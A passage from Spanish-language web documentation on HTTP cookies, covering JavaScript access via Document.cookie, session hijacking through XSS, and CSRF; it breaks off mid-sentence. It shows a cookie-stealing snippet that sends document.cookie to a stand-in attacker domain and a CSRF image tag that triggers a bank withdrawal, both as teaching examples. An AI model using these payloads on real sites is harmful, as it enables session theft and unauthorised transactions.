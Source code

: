 El comportamiento por defecto de este flag si no está establecido, o no está soportado por el navegador, es incluir las cookies en cualquier solicitud, incluyendo solicitudes corss-origin.

### Acceso desde JavaScript usando `Document.cookie`

También se pueden crear nuevas cookies via JavaScript usando la propiedad {{domxref("Document.cookie")}}, y si el flag `HttpOnly` no está establecido, también se puede acceder a las cookies existentes desde JavaScript.

```js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

Tenga en cuenta las cuestiones de seguridad en la siguiente sección [Seguridad](#Security). Las cookies disponibles para JavaScript pueden ser robadas por medio de XSS.

## Seguridad

> [!NOTE]
> Nunca se debe almacenar ni transmitir información confidecial o sensible mediante Cookies HTTP, ya que todo el mecanismo es inherentemente inseguro.

### Secuestro de session y XSS

Las cookies son utilizadas a menudo en aplicaciones web para identificar a un usuario y su sesión autenticada, así que el robo de una cookie puede implicar el secuestro de la sesión del usuario autenticado. Las formas más comunes de robar cookies incluyen ingeniería social o la explotación de una vulnerabilidad [XSS](/es/docs/Web/Security/Types_of_attacks#cross-site_scripting_xss) de la aplicación.

```js
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

El atributo cookie `HttpOnly` puede ayudar a mitigar este ataque evitando el acceso al valor de la cookie a través de JavaScript.

### Cross-site request forgery (CSRF)

[Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery) menciona buenos ejemplos para {{Glossary("CSRF")}}. En este caso, alguien puede incluir una imagen que no es realmente una imagen (por ejemplo un chat o foro sin filtrar), que en lugar de esto es realmente una solicitud de tu banco para retirar tu dinero:

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

Ahora, si tu tienes una sesión iniciada en tu tu cuenta bancaria y las cookies permanecen siendo válidas (y no hay otra validación mas que esa), se realizará la transferencia desde tu cuenta tan pronto como se cargue el html que contiene la imagen. Para los endpoints que requieren una petición de tipo POST, se puede disparar un evento de tipo envío de formulario (posiblemente en un iframe invisible) cuando la página se carga:
